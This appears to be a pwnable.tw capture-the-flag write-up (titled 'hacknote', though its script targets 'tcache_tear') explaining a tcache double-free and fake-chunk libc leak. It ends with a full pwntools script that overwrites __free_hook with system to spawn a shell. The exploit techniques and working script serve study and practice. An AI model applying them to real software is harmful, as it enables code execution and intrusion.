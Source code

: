 # pwnable.tw - hacknote

Original challenge link: https://pwnable.tw/challenge/#33

##  Overview

We can enter a name, and can malloc upto 0xff bytes, and free the pointer. We are limited to handling 1 heap pointer only. However, as the glibc version is old, it has no protection for double free on tcache chunks. It asks for malloc size, and reads input_size-0x10 number of bytes. This results in integer underflow and it reading very large number of bytes, giving us buffer/heap overflow. 


## Exploit
A bit of tcache info is mentioned [here](../tcache%20notes.md).

First we need to leak some sort of heap address. Its full relro, so we can't overwrite GOT. The goal becomes to write a libc address in the bss address where name is stored.

First, we use double free to inject arbitrary address in tcache - 
```py
malloc(20) # def malloc(size, content=b"x")
free()
free()
malloc(20, p64(name_ptr))
malloc(20)
malloc(20, b"overwrite_name!!")
```
Let's say the first malloc(20) got allotted addr A. free() will put addr A in tcache 0x20 bin. The next free will again put addr A in tcache 0x20 bin, and *A will have address of itself (linked list logic).

Now when we malloc, we get allotted addr A, but tcache still has an entry to A. When we write something at A, tcache will parse it as next address in the freed chunks linked list. So when we write name_ptr at that address, we basically make tcache like this - 
```
0x20 Bin -> A -> (name_ptr)
```
If you malloc twice now, you will get name_ptr as return addr of malloc, and our given data will be written there.

With this we have write what where primitive. We also have almost no limit to write size due to integer underflow if we specify size < 16. 

To get a libc leak, we focus on the fact that when a tcache eligible chunk is freed, it gets a heap pointer to tcache struct written in it. But when an unsorted bin eligible chunk is freed, glibc writes a pointer to main_arena there, giving us a relative libc address. 

But for free() to put a chunk in unsorted bin, it has to be atleast > 1032 bytes in size. Since we can't malloc that big chunk, we use our overflow primitve to create a fake chunk within name location in bss, so that when free is called on that chunk, a libc address is placed there, and we can print it.


```py
malloc(10, flat(
    p64(0x0),                   #name
    p64(0x421),                 #name+8
    b"A"*0x18,                  #fill remaining name
    p64(name_ptr+16),           #bss malloc saved ptr
    b'A' * (0x410-0x18-8),      #fill remaining big chunk
    p64(0),                     #padding 
    p64(0x21),                  #next chunk size
    b'B' * 0x10,                #next chunk content
    p64(0),                     #oadding
    p64(0x21)                   #next chunk in use bit set
))
```
This gets overwritten at name_loc, and we carefully set current chunk pointer to name+16. free goes to name+16, reads metadata bytes before it claiming it to be 0x421 byte long chunk, it goes name+0x420, and reads metadata. Prev chunk flag has to be set and next chunk also should be a valid chunk, so we set a final terminating header.

|Address|Content	|Purpose|
|-------|-----------|------------------|
0x602068|	p64(0x421)|	Fake Chunk 1 Size: The chunk to be freed into the unsorted bin.
...	...	|(padding)|
0x602488|	p64(0x21)|	Terminator Chunk 1 Size: Marks Fake Chunk 1 as "in use".
0x6024a8|	p64(0x21)|	Terminator Chunk 2 Size: Marks Terminator Chunk 1 as "in use". 

```py
free()
p.sendlineafter(b"choice :", b"3")
p.recvuntil(b":")
p.recv(0x10)
libc.address = u64(p.recv(8))-0x3ebca0
```
This gives us libc leak when chunk is freed. So now, we can just overwrite __free_hook with system, since we control which pointer is passed to free().

```py
malloc(50)
free()
free()
malloc(50, p64(libc.sym["__free_hook"]))
malloc(50)
malloc(50, p64(libc.sym.system))
```

Finally, we create a heap pointer with /bin/sh, and pass it to free and get the shell- 
```py
malloc(80, "/bin/sh;")
free()
```


## Solve Script
```py
from pwn import *
import time
exe = ELF("./tcache_tear_patched")
libc = ELF("./libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10207)
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r)
        time.sleep(2)
    return r

p = conn()
name_ptr = 0x602060
def malloc(size, content=b"x"):
    p.sendlineafter(b"choice :", b"1")
    p.sendafter(b"Size:", str(size).encode())
    p.sendafter(b"Data:", content)

def free():
    p.sendlineafter(b"choice :", b"2")

#p.sendline(p64(0x0)+p64(0x421))
p.sendline(b"abc")
malloc(20)
free()
free()
malloc(20, p64(name_ptr))
malloc(20)

malloc(10, flat(
    p64(0x0),
    p64(0x421),
    b"A"*0x18,
    p64(name_ptr+16),
    b'A' * (0x410-0x18-8),
    p64(0),
    p64(0x21),
    b'B' * 0x10,
    p64(0),
    p64(0x21)
))
free()
p.sendlineafter(b"choice :", b"3")
p.recvuntil(b":")
p.recv(0x10)
libc.address = u64(p.recv(8))-0x3ebca0

malloc(50)
free()
free()
malloc(50, p64(libc.sym["__free_hook"]))
malloc(50)
malloc(50, p64(libc.sym.system))


malloc(80, "/bin/sh;")
free()

p.interactive()

```